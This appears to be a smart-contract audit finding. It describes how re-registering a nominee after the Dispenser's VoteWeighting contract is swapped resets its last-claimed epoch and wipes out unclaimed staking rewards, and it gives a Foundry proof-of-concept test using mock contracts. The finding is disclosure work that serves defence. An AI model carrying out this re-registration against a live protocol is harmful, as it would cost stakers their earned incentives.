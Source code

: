 Consider the following scenario:

1. Dispenser owner decides to swap the current VoteWeighting contract for some reason, e.g., a critical vulnerability has been found with the VoteWeighting contract.
2. The new VoteWeighting contract does not have Nominee X, a popular staking program that has earned huge rewards since the protocol was deployed. Nominee X has not yet claimed staking rewards for 3 epochs.
3. Bob notices that a new VoteWeighting contract has been set, and decides to disrupt the party by registering staking program X **again** by calling `VoteWeighting::addNominee(X, chainId)`. Since the Dispenser contract does not check if Nominee X has already been set, this results in a reset to the current epoch.

```solidity
mapLastClaimedStakingEpochs[X] = ITokenomics(tokenomics).epochCounter().  
```

Now, when `claimStakingIncentives` is called for Nominee X, staking incentives for 2 epochs will have been lost.

For a coded POC:

1. Add these lines to `Tokenomics/test/Dispenser.t.sol::Ln 24`:

```solidity
    MockVoteWeighting internal vw;
    MockVoteWeighting internal vw2;
```

2. Add these lines to `Tokenomics/test/Dispenser.t.sol::Ln 64`:

```solidity
vw = new MockVoteWeighting(address(dispenser));
vw2 = new MockVoteWeighting(address(dispenser));
```

3. Add this test to `Tokenomics/test/Dispenser.t.sol::DispenserTest Ln 100`:

```solidity
    function testChangeVoteWeightLostIncenctives() public{
        dispenser.setPauseState(Pause.Unpaused);
        address deal = makeAddr("deal");
        vw.addNominee(deal,1);
        uint256 epoch = dispenser.mapLastClaimedStakingEpochs(keccak256(abi.encode(Nominee(bytes32(uint256(uint160(deal))),1))));
        assertEq(tokenomics.epochCounter(),epoch);
        // Move at least epochLen seconds in time
        vm.warp(block.timestamp + epochLen + 10);
        // Mine a next block to avoid a flash loan attack condition
        vm.roll(block.number + 1);

        // Start new epoch and calculate tokenomics parameters and rewards
        tokenomics.checkpoint();
        assertGt(tokenomics.epochCounter(),epoch);
        // Get the last settled epoch counter
        dispenser.changeManagers(address(0), address(0), address(vw2));
        vw2.addNominee(deal,1);
        uint256 epoch2 = dispenser.mapLastClaimedStakingEpochs(keccak256(abi.encode(Nominee(bytes32(uint256(uint160(deal))),1))));
        assertGt(epoch2,epoch);
        // Move at least epochLen seconds in time
       
    }
```
